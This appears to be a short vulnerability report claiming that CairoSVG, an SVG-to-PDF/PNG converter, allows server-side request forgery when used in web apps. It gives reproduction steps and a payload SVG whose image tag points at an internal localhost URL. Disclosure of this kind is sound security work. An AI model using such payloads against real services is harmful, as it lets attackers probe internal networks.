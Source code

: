 # Description


 `CairoSVG` is an SVG converter based on Cairo. It can export SVG files to PDF, EPS, PS, and PNG files. **useing this package in webapps can be lead to** `SSRF` **attacks**

https://github.com/sterlp/svg2png

# :recycle:  Steps To Reproduce-:  
  0) `$ pip3 install cairosvg`
  1) `$ cairosvg payload.svg`
  1) creat a payload svg or use : [rc3.svg](https://drive.google.com/file/d/1jGhUXepvOV9bs_aaCThSmqloY_C1Nsj4/view?usp=sharing)

  rc3.svg
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="overflow: hidden; position: relative;" width="300" height="200">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg" stroke-width="1" id="image3204" />
<rect x="0" y="150" height="10" width="300" style="fill: black"/>
</svg>

  ```
# POC :-

[gdrive](https://drive.google.com/file/d/1VqfAgldmtY-qrgHRfizVvAH2oIFZVT-q/view?usp=sharing)
## 💥 Impact
SSRF 
